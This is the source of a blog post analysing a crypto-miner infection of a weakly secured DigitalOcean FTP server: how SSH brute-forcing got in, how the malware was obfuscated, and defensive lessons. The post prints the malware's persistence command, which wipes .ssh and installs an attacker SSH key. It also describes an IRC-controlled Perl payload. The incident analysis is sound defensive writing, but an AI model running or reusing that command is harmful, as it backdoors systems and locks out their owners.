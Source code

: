 ```yaml
---
layout: post
title: "Anatomy of a crypto mining hack"
description: "One of my DigitalOcean instances got hacked by a crypto miner. The instance was insignificant but gave me the opportunity to poke around the code."
keywords: "computer hacking, crypto mining hack"
image_url: "/assets/static/images/digitalocean-cpu-alert.png"
category:
tags: ["#code"]
---
```

{% include setup %}
A few months ago I set up a simple ftp server to help a friend. I took a few security shortcuts which came to bite me this week when I received an alert from DigitalOcean that an instance was running hot.

<amp-img src="{{ IMG_PATH }}digitalocean-cpu-alert.png" alt="DigitalOcean CPU Alert" width="503" height="280" layout="responsive"></amp-img>

I dug into it and noticed a series of processes being run by the ftp_user - the most impactful was a command called rsync. I'm familiar with rsync which syncs files across devices - and this was nothing like that. At this point I realized that I got hacked and quickly disabled the user and killed all its processes. The CPU usage dropped back to normal and now it was time to dig into the damage.

Note that I’m far from a security engineer but am reasonably comfortable on the command line. The user was not a sudo account and this was a non critical instance so I wasn't too worried about the impact. In fact, I actually enjoyed the exercise of digging in and trying to see how I was hacked and how the entire script worked.

The origin of the hack was that I was sloppy when I created the ftp account and gave it both a weak password and didn't disable password-based authentication for SSH. This led to the attacker brute forcing the password and getting access to the ftp_user's home folder on the instance. Once there, the attacker downloaded a bunch of code that both embedded itself in the system and then started running a miner.

Before I got rid of the code I took the liberty of committing it to [GitHub](https://github.com/dangoldin/crypto-miner-hack) in order to preserve and share with others. That also gave me the time to dig in and see how it actually worked.

One of the first things I noticed was how obfuscated the code was. The file names and folders were either named after existing programs or were hidden files and directories. In addition, the names were completely nonsensical and intricately linked which made it difficult to trace the execution. I didn't go through the code step by step by digging into the files and found a few interesting tidbits.

One was that the [code created](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L5) a cron job that would wipe the .ssh folder and then add a single ssh key - thereby locking every other user out.

{% highlight bash %}cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh{% endhighlight %}

Another was that there was a [script to kill](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/a/init0) other miners. I assume the motivation here was to realize that if this instance was dumb enough to get hacked then it was probably hacked by someone else already so let's put a stop to that.

The most interesting part was an [encoded string](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L4) that was passed into the Perl interpreter. The first step decoded it into a highly obfuscated Perl program and the [subsequent step](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_2_safe_obfuscated) executed it through an eval. The [code itself](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_3_safe_decoded) is fascinating and those more knowledgeable [figured out](https://malware.news/t/dota-campaign-analyzing-a-coin-mining-and-remote-access-hybrid-campaign/30326) it was connecting and listening to commands from an IRC server.

There's a fascinating amount of research one can do here to understand everything the hackers managed to do and yet it's a world most of us are only tangentially aware of. There are clear lessons here. One is to take security seriously even if it is a toy project - in this case both a strong password and limiting password-based SSH would have stopped the hack. The other is that even simpler monitoring is a huge help. If DigitalOcean had not sent me the alert my instance would still be mining cryptocoins. And the last one is that running a honeypot is an insightful experience and gives you a chance to learn something new and flex those debugging muscles.
